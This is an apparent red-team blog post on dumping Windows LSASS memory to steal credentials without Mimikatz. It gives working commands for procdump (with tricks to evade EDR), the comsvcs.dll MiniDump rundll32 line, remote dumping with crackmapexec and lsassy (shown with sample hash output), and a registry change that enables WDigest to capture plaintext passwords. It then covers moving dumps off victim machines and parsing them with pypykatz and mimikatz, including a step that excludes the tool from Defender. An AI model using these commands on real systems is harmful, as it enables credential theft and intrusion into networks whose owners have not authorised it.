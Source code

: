 ```yaml
---
title: Dumping LSASS Without Mimikatz
categories: [red team,credential dumping]
tags: [red-team,lsass,mimikatz,procdump,Comsvcs,crackmapexec,LSASSY,wdigest,]
comments: true
---
```


Mimikatz is a tool for dumping credentials from memory in Windows. It is a great tool for lateral and vertical privilege escalation in Windows Active Directory environments. Due to its popularity, the Mimikatz executable and PowerShell script are detected by most of the Antivirus (AV) solutions out there. In this article, I will talk about using several alternative methods to achieve the same goal without the need to modify the Mimikatz.

# What is LSASS?

The Local Security Authority Subsystem Service (LSASS) is the service in Microsoft Windows that manages all user authentication, password changes, generation of access tokens, and enforcement of security policies. For example, when you log on to a Windows user account or server, lsass.exe verifies the login name and password.

![Untitled](/assets/img/pitcures/red-team/dumplsass.png)

# Requirements to Get DUMP from LSASS

It is necessary to have `SeDebugPrivilege` privilege to dump LSASS as an attacker. The default Windows setting is to give this privilege to local administrators. You can check the rights with the command below.

```bash
whoami /priv
```

![Untitled](/assets/img/pitcures/red-team/dumplsass1.png)

# LSASS Dump Getting Methods

## Method 1- Getting LSASS Dump with Task Manager (GUI)

If you have Remote Desktop Protocol (RDP) session or other GUI access to the device, you can use the Windows Task Manager to create a dump file. By default, Windows Defender does not warn about threats.

From the Task Manager go to the `Details` tab, find `lsass.exe`, right click and select `Create dump file`.

This will create a dump file in the user's `C:\Users\0xhav0c\AppData\Local\Temp` directory:

![Untitled](/assets/img/pitcures/red-team/dumplsass2.png)

## Method 2- Getting LSASS Dump with PROCDUMP

[Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) is a Windows SysInternals tool that can be used to create memory dumps of processes. The disadvantage of this method is that you have to copy the Procdump executable to the target machine, and some organizations warn the binary as malicious.

To create a LSASS memory dump:

```bash
PS C:\Users\0xhav0c> procdump.exe -accepteula -ma lsass.exe out.dmp
```

Some EDR solutions warn or block this based on the `lsass` process name. This can usually be bypassed by specifying the LSASS transaction ID instead.

To get the LSASS process ID via PowerShell:

```bash
PS C:\Users\0xhav0c> get-process lsass
 
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1296      26     7148      51752               580   0 lsass
```

To get the LSASS process ID with CMD:

```bash
C:\Users\0xhav0c> tasklist | findstr lsass
lsass.exe                      580 Services                   0     51,752 K
```

Then dump the findstr value with the same procdump:

```bash
C:\Users\0xhav0c> procdump.exe -accepteula -ma 580 out.dmp
```

Additionally, depending on the EDR, you can simply add quotes around the transaction name

```bash
PS C:\Users\0xhav0c> procdump.exe -accepteula -ma “lsass.exe” out.dmp
```

## Method 3- Getting LSASS Dump with Comsvcs

With Comsvcs you can create a memory dump using native libraries available on Windows machines.

```bash
# Detect the PID for lsass.exe
PS C:\Users\0xhav0c> tasklist | findstr lsass
lsass.exe                      580 Services                   0     51,752 K
# Dumping LSASS.exe
PS C:\Users\0xhav0c> C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 580 C:\temp\out.dmp full
```

## Method 4- Getting LSASS Dump with Crackmapexec

Crackmapexec is an excellent tool for performing a LSASS dump remotely. With credentials with local admin access, you can to indicate an entire subnet or list of IP addresses and get.

```bash
crackmapexec smb 192.168.x.x -u 0xhav0c -p Password123! --lsa
SMB         192.168.x.x    445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:secybr.com) (signing:True) (SMBv1:True)
SMB         192.168.x.x    445    DC               [+] secybr.com\0xhav0c:Password123! (Pwn3d!)
SMB         192.168.x.x    445    DC               [+] Dumping LSA secrets
SMB         192.168.x.x    445    DC               secybr.com\DC$:aes256-cts-hmac-sha1-96:5a0f8706487aae9bf38161a4608e7567ac1c4a105226b783ccbd98274c8d4018
SMB         192.168.x.x    445    DC               secybr.com\DC$:aes128-cts-hmac-sha1-96:d8402dda8272520b01ba6b8dcfd9b3d8
SMB         192.168.x.x    445    DC               secybr.com\DC$:des-cbc-md5:f45b2361ae1ad308
SMB         192.168.x.x    445    DC               secybr.com\DC$:plain_password_hex:4e4545a05fe307150e0679cf4169caea359467422908fec7e82b6eb63d23dfa9cb180c4c3da62ff7ce1ab1396b1fa505300bed8d7a67e36b74ab9b25721756181c47850cf9dc220964ae7c50a104cfed776f5c1cb8865bb443d9d757cd90dc1dca063ba89776825f20d7d61b7debfb5339cd69dc3c3c81b0e81c6b74065d4456a6339991fd05a5e687cd8fd0f81562a3613f7094015ab82ca0e16fca01551fdef5f397f48664cb64801215b453d29c1034aca75242c3be6aa080dd6be94ca91f712db8c6d4ca6305ee47912fa5a11bc388388fde380c3d9a712d6c8fe36b50c3cdedc4cae98d75eb9561c0a8ec13a0da
SMB         192.168.x.x    445    DC               secybr.com\DC$:aad3b435b51404eeaad3b435b51404ee:6e93dbc1944a24129c85324692f4687b:::
SMB         192.168.x.x    445    DC               [+] Dumped 7 LSA secrets to /home/t/.cme/logs/DC_192.168.x.x_2022-06-30_134314.secrets and /home/t/.cme/logs/DC_192.168.x.x_2022-06-30_134314.cached
```

> If Crackmapexec catches hashes and plaintext passwords, it will keep it in its home directory under `~/.cme/logs/`.
{: .prompt-tip }


CrackMapExec uses Impacket's [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to dump LSASS.

## Method 5- Getting LSASS Dump with LSASSY

[Lsassy](https://github.com/Hackndo/lsassy) is a tool that uses a combination of the above methods to offload LSASS remotely. The default command attempts to use the `comsvcs.dll` method to offload LSASS with WMI or a remote scheduled task:

```bash
└─$ lsassy -d secybr.com -u 0xhav0c -p Password123! 192.168.x.x
[+] [192.168.x.x] secybr.com\0xhav0c  58a478135a93ac3bf058a5ea0e8fdb71[+] [192.168.x.x] secybr.com\0xhav0c  Password123!
```

Additionally, Lsassy is integrated into Crackmapexec, giving you a nice clean output of just NTLM hashes or plain text credentials. 

> The disadvantage of this method over the `–lsa` method is that it does not automatically store the results in the Crackmapexec logs directory.
{: .prompt-info }

```bash
└─$ crackmapexec smb 192.168.x.x -u 0xhav0c -p 'Password123!' -M lsassy
SMB         192.168.x.x    445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:secybr.com) (signing:True) (SMBv1:True)
SMB         192.168.x.x    445    DC               [+] secybr.com\0xhav0c:Password123! (Pwn3d!)
LSASSY      192.168.x.x    445    DC               secybr.com\0xhav0c 58a478135a93ac3bf058a5ea0e8fdb71
LSASSY      192.168.x.x    445    DC               secybr.com\0xhav0c Password123!
```

The methods shown up to this section were for devices that hold hashes and plaintext credentials.

## Enabling Wdigest and Obtaining Plain Text Credentials

WDigest is disabled on newer machines. It is possible for attackers to enable this plaintext credentials when a user logs in. WDigest can be enabled by setting the required registry key to "1" instead of "0":

```bash
C:\Users\0xhav0c> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /d 1
```

Additionally, this can be done remotely with Crackmapexec:

```bash
└─$ crackmapexec smb 192.168.x.x -u 0xhav0c -p 'Password123!' -M wdigest -o action=enable
SMB         192.168.x.x    445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:secybr.com) (signing:True) (SMBv1:True)
SMB         192.168.x.x    445    DC               [+] secybr.com\0xhav0c:Password123! (Pwn3d!)
WDIGEST     192.168.x.x    445    DC               [+] UseLogonCredential registry key created successfully
```

# Moving Dump Files to Attacker Device

Once you have the dump file, you can transfer it to the device where you can use mimikatz in many ways.

- You can copy paste with RDP.
- You can mount your disk to that device before sending the RDP connection.
- You can create a simple PHP page, configure it to accept file uploads to this address, and transfer the file to yourself with a POST request with Powershell on the victim device.
- If the victim has python on the device, you can create a simple web page by using the `http-server` module.
- Or you can upload it to an upload site that comes to mind first and get it from there.

# Examining Dump Files

## Method 1 - Examining Dump Files Using pypkatz

```bash
└─$ pypykatz lsa minidump lsass.DMP
```

## Method 2 - Examining Dump Files using mimikatz.exe

After obtaining the dump file, download Mimikaz on a windows device that belongs to you.

> Make sure to create an exception folder for Windows Defender on the machine where you are using Mimikatz, otherwise Defender Mimikatz will quarantine your executable. Run Mimikatz.
{: .prompt-warning }

 Use the following commands to extract the credentials from your LSASS Dump file:

```bash
sekurlsa::minidump lsass.DMP
sekurlsa::logonPasswords
```